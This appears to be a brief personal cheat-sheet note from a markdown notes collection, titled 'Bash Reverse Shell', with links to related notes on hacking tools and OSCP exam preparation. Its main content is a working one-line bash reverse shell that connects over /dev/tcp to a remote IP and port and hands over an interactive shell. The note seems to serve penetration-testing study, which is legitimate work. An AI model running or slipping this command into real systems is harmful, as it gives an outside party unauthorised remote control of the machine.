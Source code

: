 # Bash Reverse Shell
```
/bin/bash -i >& /dev/tcp/192.168.0.1/4433 0>&1
```

` zet/20221003150563/README.md `

# Related

- [20221003150275](/zet/20221003150275/README.md) firefox reverse shell toolbar hacktools
- [20221014190001](/zet/20221014190001/README.md) kb file named kb/hacking/common-commands.md
- [20221009005402](/zet/20221009005402/README.md) preparing for the OSCP exam

Tags:

    
